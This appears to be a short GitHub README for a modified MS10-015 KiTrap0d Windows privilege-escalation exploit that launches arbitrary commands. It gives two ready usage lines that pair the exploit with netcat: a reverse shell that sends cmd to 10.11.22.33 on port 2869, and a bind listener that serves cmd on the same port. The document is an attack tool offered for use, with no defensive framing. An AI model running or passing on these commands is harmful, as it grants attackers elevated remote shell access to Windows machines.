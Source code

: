 # MS10-015_kitrap0d
MS10-015 KiTrap0d (exploitdb-id:11199) modified binary that start any command instead of forking a command prompt. This can be used to start netcat as either tcp reverse shell or listener.

** Reverse shell
```
vdmallowed nc 10.11.22.33 2869 -e cmd
```
** Listener
```
vdmallowed nc -nvlp 2869 -e cmd
```

